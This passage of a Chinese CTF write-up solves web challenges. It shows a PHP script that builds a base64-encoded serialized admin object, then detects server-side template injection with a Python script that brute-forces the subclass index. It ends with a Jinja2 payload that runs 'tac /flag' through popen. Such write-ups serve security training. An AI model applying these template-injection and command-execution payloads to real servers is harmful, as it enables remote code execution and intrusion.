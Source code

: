 直接赋值账号密码即可通过检查，题目会对其 base64 解码，所以传入 base64 加密后的代码

exp：

```php
<?php
class User {
    public $username;
    public $password;
}
        $a=new User();
        $a->username="admin";
        $a->password="secure_password";
        echo base64_encode(serialize($a));
?>
# O:4:"User":2:{s:8:"username";s:5:"admin";s:8:"password";s:15:"secure_password";}
```

### 一个....池子？

![](https://s2.loli.net/2024/06/05/u2hOsoVa6L3QRAr.png)

尝试输入\{\{7*7\}\}回显了 49，证明存在 ssti 注入

`{{''.__class__.__base__.subclasses__()}}可以查询所有子类结果，这里用脚本爆破想要的函数`

```python
#post请求
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36'
}

for i in range(501):
    url = "xxx"
    postPara = {"input":"{{\"\".__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    print(i)
    res = requests.post(url=url,headers=headers,data=postPara)
    if 'os._wrap_close' in res.text: #查找其他命令时就用其他子类
        print("be founded in:"+str(i))
        break
else:
    print("not found")
# 得到编号为137
```

无过滤，直接拿 flag 即可

Payload:

`{{''.__class__.__bases__[0].__subclasses__()[137].__init__.__globals__['popen']('tac /flag').read()}}`

### 浏览器也能套娃？
